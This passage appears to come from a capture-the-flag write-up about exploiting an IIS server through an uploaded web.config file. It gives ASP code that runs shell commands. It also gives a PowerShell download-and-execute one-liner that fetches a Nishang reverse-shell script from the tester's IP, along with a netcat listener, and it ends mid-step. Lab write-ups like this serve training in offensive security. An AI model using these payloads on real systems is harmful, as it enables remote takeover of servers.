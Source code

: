 ![[web_3.png]]

### 3.3 Remote Command Execution

We replace payload to confirm execution with ping:

```asp
<%
Set co = CreateObject("WScript.SHell")
Set cte = co.Exec("cmd /c ping 10.10.14.7")
output = cte.StdOut.Readall()
Response.write(output)
%>
```

![[webconfig_ping.png]]

Listening with tcpdump:

```bash
tcpdump -i tun0 icmp -n
```

![[webconfig_ping_received.png]]

✅ Confirmed RCE.

### 3.4 Reverse Shell

We use **Nishang Invoke-PowerShellTcp.ps1** payload:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443
```

Modify `web.config` to fetch and execute it:

```asp
<%
Set co = CreateObject("WScript.SHell")
Set cte = co.Exec("cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')")
output = cte.StdOut.Readall()
Response.write(output)
%>
```

![[webconfig_shell.png]]

Start listener:

```bash
nc -nlvp 443
```

Upload and trigger the payload:
